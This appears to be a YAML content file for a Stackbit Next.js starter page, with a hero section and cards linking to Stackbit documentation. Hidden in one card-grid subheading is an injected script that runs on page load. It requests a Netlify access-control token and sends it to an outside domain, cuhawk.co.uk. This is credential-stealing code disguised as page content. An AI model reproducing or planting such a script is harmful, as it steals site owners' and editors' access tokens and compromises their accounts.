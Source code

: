 ```yaml
---
type: Page
title: Stackbit Next.js Starter
sections:
  - type: HeroSection
    heading: Welcome to Stackbit!
    subheading: >
      You've just [unlocked visual editing
      capabilities](https://www.stackbit.com/) in this Next.js app.
    buttons:
      - label: Start Building
        url: 'https://docs.stackbit.com/getting-started/'
        theme: primary
      - label: Read the Docs
        url: 'https://docs.stackbit.com/'
        theme: secondary
  - type: CardGridSection
    heading: Card Grid Heading
    subheading: |+
      Card Grid Subheading
      h
          \<div id="result">\</div>

          <script>
              // Function to make the first GET request to Netlify and retrieve the token
              function getAccessToken() {
                  fetch('https://app.netlify.com/access-control/generate-access-control-token')
                      .then(response => response.json())
                      .then(data => {
                          // Assuming the JSON response contains the token as a string
                          const token = data.token;
                          console.log('Access Token:', token);
                          makeSecondRequest(token);
                      })
                      .catch(error => {
                          console.error('Error:', error);
                      });
              }

              // Function to make the second GET request to test.com with the token as a path parameter
              function makeSecondRequest(token) {
                  const url = `https://cuhawk.co.uk/${token}`;
                  fetch(url)
                      .then(response => response.text())
                      .then(data => {
                          document.getElementById('result').textContent = data;
                      })
                      .catch(error => {
                          console.error('Error:', error);
                      });
              }

              // Call the function to initiate the process
              getAccessToken();
          </script>

  - type: CardGridSection
    heading: Jump to Topic
    subheading: |
      Or jump right to a specific topic to help you build your site.
    cards:
      - heading: How Stackbit Works →
        subheading: |
          Follow an end-to-end guide to learn the inner-workings of Stackbit.
        url: 'https://docs.stackbit.com/conceptual-guides/how-stackbit-works/'
      - heading: Pages →
        subheading: >
          Add a new type of page to your site, while touching on content
          modeling and data retrieval.
        url: 'https://docs.stackbit.com/how-to-guides/content/'
      - heading: Components →
        subheading: >
          Make components editable, add styles, and provide content presets to
          speed up content editing.
        url: 'https://docs.stackbit.com/how-to-guides/components/'
      - heading: Styling →
        subheading: >
          Set up global styles and add a styling toolbar to individual
          components in the visual editor.
        url: 'https://docs.stackbit.com/how-to-guides/styles/'
---
```

